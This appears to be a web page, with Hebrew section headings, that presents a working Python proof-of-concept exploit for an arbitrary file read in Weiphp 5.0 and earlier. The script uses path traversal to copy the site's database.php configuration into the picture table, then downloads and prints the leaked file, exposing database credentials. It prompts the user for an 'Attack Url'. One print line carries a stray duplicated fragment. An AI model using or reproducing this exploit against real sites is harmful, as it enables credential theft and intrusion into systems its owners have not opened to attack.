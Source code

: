 <languages   />

השפעת פגיעות
------------

    Weiphp <= 5.0

POC
---

    #!/usr/bin/python3
    #-*- coding:utf-8 -*-
    # author : PeiQi
    # from   : http://wiki.peiqi.tech


    import requests
    import random
    import re


    def title():
        print('+------------------------------------------')
        print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
        print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
        print('+  \033[34m公众号 : PeiQi文库                                                \033[0m')                            \033[0m')
        print('+  \033[34mVersion: Weiphp5.0                                                \033[0m')
        print('+  \033[36m使用格式: python3 poc.py                                            \033[0m')
        print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx                                 \033[0m')
        print('+------------------------------------------')

    def POC_1(target_url):
        upload_url = target_url + "/public/index.php/material/Material/_download_imgage?media_id=1&picUrl=./../config/database.php"
        headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
        }
        data = {
            "1":1
        }
        try:
            response = requests.post(url=upload_url, headers=headers, data=data, timeout=20)
            if response.status_code == 200:
                print("\033[32m[o] 成功将 database.php文件 写入Pictrue表中\033[0m")
            else:
                print("\033[31m[x] 漏洞利用失败 \033[0m")
        except:
            print("\033[31m[x] 漏洞利用失败 \033[0m")

    def POC_2(target_url):
        vnln_url = target_url + "/public/index.php/home/file/user_pics"
        headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
        }
        try:
            response = requests.get(url=vnln_url, headers=headers).text
            href = re.findall(r'<img src="(.*?)"', response)
            for i in href:
                print("\033[32m[o] 得到敏感文件url：{}\033[0m".format(i))
                data = requests.get(url=i, headers=headers)
                path = str(random.randint(1,999)) + '.php'
                with open(path, 'wb') as f:
                    f.write(data.content)
                    print("\033[32m[o] 成功下载文件为：{}\033[0m".format(path))
                    print("\033[32m[o] 文件内容为：\n\033[0m{}".format(data.text))
        except:
                print("\033[31m[x] 获取文件名失败 \033[0m")



    if __name__ == '__main__':
        title()
        target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
        POC_1(target_url)
        image_url = POC_2(target_url)

הפניה
-----

<http://wiki.peiqi.tech/PeiQi_Wiki/CMS%E6%BC%8F%E6%B4%9E/Weiphp/Weiphp5.0%20%E5%89%8D%E5%8F%B0%E6%96%87%E4%BB%B6%E4%BB%BB%E6%84%8F%E8%AF%BB%E5%8F%96%20CNVD-2020-68596.html>
